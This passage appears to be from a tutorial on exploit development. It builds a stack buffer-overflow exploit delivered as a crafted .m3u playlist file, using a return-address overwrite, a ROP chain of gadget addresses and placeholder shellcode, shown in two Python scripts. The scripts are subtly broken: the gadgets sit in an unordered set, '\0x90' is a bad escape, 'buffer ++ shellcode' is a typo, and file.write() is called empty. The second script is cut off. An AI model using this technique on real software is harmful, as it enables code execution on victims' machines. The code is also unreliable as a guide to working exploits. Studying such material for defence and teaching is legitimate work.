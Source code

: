 Gadgets can be found in the `rop.txt` file. We insert the address of the gadget there and now just the address of RET can be copied and used in the exploit.

Following the `pop ebp` expression located at `0x10010157`, we proceeded. The result displays the device at that address. As we only require the `ret`, we will use its address, which is `0x10010158`.

We will now launch the modified payload. Currently, the exploit appears as follows, and we shall execute it now for clarification:

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x42424242,
        0x43434343,
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()
shellcode = "\0x90" * 32 + "\xcc\xcc\xcc\xcc"

buffer = "A" * 1012
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

We choose an address with a clear retn and incorporate it into the exploit. Then, it will be added twice to the exploit buffer. The address of the instruction is `0x100106e1`.

![img](images/19.png)

ROP chain is the sole element currently modified by the exploit. Additionally, we will add a breakpoint in the first ret at `0x10010158`.

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x100106e1, # pop ebp, ret
        0x100106e1, # popped to peb: pop ebp, ret
        0x42424242, # placeholder
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()
shellcode = "\0x90" * 32 + "\xcc\xcc\xcc\xcc"

buffer = "A" * 1012
buffer += ret
```